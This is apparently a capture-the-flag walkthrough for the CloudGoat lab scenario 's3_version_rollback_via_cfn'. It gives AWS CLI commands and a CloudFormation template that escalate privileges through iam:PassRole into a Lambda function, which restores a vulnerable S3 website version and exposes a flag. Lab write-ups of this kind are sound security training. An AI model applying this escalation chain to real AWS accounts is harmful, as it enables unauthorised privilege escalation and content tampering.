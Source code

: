 # CloudGoat Walkthrough: s3_version_rollback_via_cfn

1. Verify that the given website URL uses S3 static web hosting.

2. Configure your AWS CLI profile.

```sh
$ aws configure --profile {IAM User}
```

3. Check permissions.

```sh
$ aws sts get-caller-identity --profile {IAM User}
$ aws iam list-user-policies --user-name {} --profile {IAM User}
$ aws iam get-user-policy --user-name {} --policy-name {} --profile {IAM User}
	-> Check S3 permissions, CloudFormation:CreateStack, lambda:InvokeFunction, and passrolls to roles.
```

4. S3 object, check version and then try to download.

```sh
$ aws s3 ls s3://{} --profile {IAM User} 
		-> Verify bucket name by reporting website static address.

$ aws s3api list-object-versions \
 --bucket {} \
 --profile {IAM User}

$ aws s3api get-object \
  --bucket {} \
  --key {} \
  --version-id {}\
  ./{outfile} \
  --profile {IAM User}
```

5. Check the contents of previous version `index.html`.

```
$ cat {index.html}
    -> Reviewed the code that attempts to read flag.txt from another bucket. It is clear that the corresponding HTML needs to be restored.
    -->The flag.txt object cannot be accessed directly.
```

6. Check permissions to use Cloudformation after restore fails due to lack of putobject permission required to restore previous version. Also get information about Role that allows passrole.

```sh
$ aws iam list-roles --profile {IAM User}
  -> Check the CloudFormation, Lambda Role.

$ aws iam list-role-policies --role-name {Role name} --profile {IAM User}

$ aws iam get-role-policy --role-name {} --policy-name {} --profile {IAM User}
  -> Check the roles trust policy and permission policy.
```

7. Create a CloudFormation template (YAML) to define and deploy a Lambda function, ensuring the appropriate trust relationships (assume role) and permissions (pass role) are correctly configured for each related service.

```yaml
AWSTemplateFormatVersion: '2010-09-09'
Description: Upload index.html to S3 using Lambda (executed by CloudFormation)

Resources:
  UploadIndexFunction:
    Type: AWS::Lambda::Function
    Properties:
      FunctionName: UploadIndexFile
      Runtime: python3.12
      Handler: index.lambda_handler
      Role: arn:aws:iam::{}:role/{LambdaPutRole}
      Code:
        ZipFile: |
          import boto3

          def lambda_handler(event, context):
              s3 = boto3.client("s3")
              content = """
              {index.html Copy and paste vulnerable version code}
              """
              s3.put_object(
                  Bucket="{Index Bucket}",
                  Key="index.html",
                  Body=content,
                  ContentType="text/html"
              )
              return {"status": "uploaded"}
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; -> Specify the desired function name and attach the privileged Roll  arn. Add the vulnerable version of HTML code that you previously downloaded and write the code to upload to that bucket.

8. Create CloudFormation Stack.

```sh
$ aws cloudformation create-stack \
  --stack-name {} \
  --template-body file://{yaml file path} \
  --role-arn {CF Role ARN} \
  --profile {IAM User}
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; ->Since users can only create CloudFormation stacks, they create the stack by attaching the CloudFormation role using the --role-arn option. Lambda Create can only perform CloudFormation, so you must use that privilege to define the Lambda function in the template.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; The Lambda function in the template is assigned a role that allows it to assume the PutObject permission. As a result, when the stack is created, a Lambda function is created to run and upload objects to the specified S3 bucket.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; The Lambda function contains a vulnerable version of index.html that was previously downloaded through GetObject. Once the function is executed, this vulnerable index.html file is uploaded to the bucket. This causes the vulnerable version of the website to be re-hosted via S3 static website hosting.

9. To create a stack and run the created Lambda function, run the function with IAM Lambda Invoke permission.

```sh
$ aws lambda invoke \
	--function-name {FunctionName} \
  ./output.json --profile {IAM User}
```

10. After reconnecting to the web, restore and check the flag.

```
http://{}.s3-website-<region>.amazonaws.com/
```

## Conclusion

In this scenario, we are:
1. **Identify vulnerabilities in object lock + version combination.**.
- Object locking works on a single object, but not when combined with version management. S3 version management is the concept of stacking objects instead of overwriting them when using PutObject.
2. **AWS privilege escalation** (Create Lambda Function).
- Escalate authority by creating CloudFormation stacks.
→ Link IAM Role to Cloud information's vulnerable privileges.

This walkthrough shows cloud security vulnerabilities related to the setup of S3 and shows how to use the CloudFormation stack to generate Lambda functions.